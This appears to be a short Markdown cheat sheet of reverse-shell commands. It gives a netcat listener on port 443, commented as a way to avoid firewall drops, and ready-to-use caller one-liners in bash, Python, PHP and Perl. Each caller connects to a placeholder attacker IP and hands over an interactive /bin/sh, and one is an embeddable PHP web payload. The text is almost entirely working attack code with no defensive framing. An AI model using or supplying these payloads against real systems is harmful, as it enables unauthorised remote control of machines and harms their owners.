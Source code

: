 # reverse shell

## listener

    # listen on 80,443 to avoid firewall drops
    nc -v -l -p 443

## caller

    bash -i >& /dev/tcp/<ip>/443 0>&1

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    # php
    <?system('bash -i >& /dev/tcp/<ip>/443 0>&1');?>

    php -r '$sock=fsockopen("127.0.0.1", 13666);exec("/bin/sh -i <&3 >&3 2>&3");'

    $output = shell_exec('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'');
    echo $output;

    # perl
    perl -e 'use Socket;$i="<ip>";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

    perl -e "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(443,inet_aton('<ip>')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};"
